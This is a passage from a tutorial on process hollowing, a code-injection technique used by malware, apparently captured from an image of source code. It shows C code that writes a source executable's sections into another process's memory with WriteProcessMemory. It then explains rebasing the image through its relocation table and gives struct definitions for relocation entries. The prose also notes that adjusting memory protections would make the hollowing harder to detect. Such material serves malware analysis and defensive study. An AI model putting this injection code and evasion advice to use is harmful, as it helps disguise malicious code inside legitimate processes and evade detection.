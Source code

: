		for (DWORD x = 0; x < pSourceImage->NumberOfSections; x++)
		{
			  if (!pSourceImage->Sections[x].PointerToRawData)
					continue;
		 
			  PVOID pSectionDestination =
					(PVOID)((DWORD)pPEB->ImageBaseAddress +
						  pSourceImage->Sections[x].VirtualAddress);
		 
			  printf
			  (
					"Writing %s section to 0x%p\r\n",
					pSourceImage->Sections[x].Name, pSectionDestination
			  );
		 
			  if (!WriteProcessMemory
			  (
					pProcessInfo->hProcess,            
					pSectionDestination,               
					&pBuffer[pSourceImage->Sections[x].PointerToRawData],
					pSourceImage->Sections[x].SizeOfRawData,
					0
			  ))
			  {
					printf ("Error writing process memory\r\n");
					return;
			  }
		}    
 
As was mentioned earlier taking this step a bit further by applying the proper memory protection options to the different sections would make the hollowing harder to detect.

Rebasing The Source Image
If the delta calculated in the prior step is not zero the source image must be rebased. To do this, the bootstrap application makes use of the relocation table stored in the .reloc section. The relevant IMAGE_DATA_DIRECTORY, accessed with the IMAGE_DIRECTORY_ENTRY_BASERELOC constant, contains a pointer to the table. 

		IMAGE_DATA_DIRECTORY relocData = pSourceHeaders->
			  OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_BASERELOC];
 
The relocation table itself is broken down into a series of variable length blocks, each containing a series of entries for a 4KB page. At the head of each relocation block is the page address along with the block size, followed by the relocation entries. Each relocation entry is a single word; the low 12 bits are the relocation offset, and the high 4 bits are the relocation types. C bit fields can be used to easily access these values.

		typedef struct BASE_RELOCATION_BLOCK {
			  DWORD PageAddress;
			  DWORD BlockSize;
		} BASE_RELOCATION_BLOCK, *PBASE_RELOCATION_BLOCK;
		 
		typedef struct BASE_RELOCATION_ENTRY {
			  USHORT Offset : 12;
			  USHORT Type : 4;
		} BASE_RELOCATION_ENTRY, *PBASE_RELOCATION_ENTRY;
 